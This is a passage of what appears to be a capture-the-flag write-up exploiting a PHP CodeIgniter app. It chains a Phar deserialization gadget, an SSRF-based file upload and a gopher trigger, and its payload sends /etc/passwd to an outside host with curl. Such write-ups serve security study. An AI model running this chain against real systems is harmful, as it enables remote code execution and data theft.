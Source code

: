 ```php
namespace CodeIgniter\Database\MySQLi {
    class Connection {
    }
}

namespace {
    $func = "system";
    $params = "cat /etc/passwd | curl -X POST -d @- http://10.10.1.35:1111";

    $Redis = new \CodeIgniter\Cache\Handlers\RedisHandler($func, $params);

    @unlink("asd.phar");

    $poc = new Phar("asd.phar");
    $poc->startBuffering();
    $poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");
    $poc["file1"] = "text";
    $poc->setMetadata($Redis);
    $poc->stopBuffering();
}
```

And generate the phar file using this command:
```bash
php -d phar.readonly=0 generate_phar.php
```

This is my script to upload file.

```python
filename = "/tmp/asd.phar"
# ...
def uploadPhar():
	imgPayload = f"<embed src='http://localhost:5000/ftp?url=ftp://10.10.1.35/asd.phar&filename={filename}' />"
	a = session.post(url+"/pdf-maker", data={
	
	"body": imgPayload,
	"option": "getOutputFromHtml"
})
```
---
### Trigger deserialization via SSRF

The last step to complete this exploit was using SSRF to invoke Phar deserialization on `generateFromHtml()` function. The gopher payload must be encoded two times because the ssrf requests happens two times, first on `generateFromHtml()`, second on `/curl` endpoint.

```python
# ...
def triggerPharDeserialize():
    data = {
        "body": f"<h1>phar://{filename}</h1>",
        "option": "generateFromHtml"
    }

    # prepare req
    req = requests.Request("POST", url+"/pdf-maker", data=data)
    prepare_req = session.prepare_request(req)
    prepare_req.headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36"

    final_req = f"{prepare_req.method} {prepare_req.path_url} HTTP/1.1\r\n"
    final_req += f"Host: 127.0.0.1\r\n"
    final_req += "\r\n".join("{}: {}".format(x, y) for x, y in prepare_req.headers.items())
```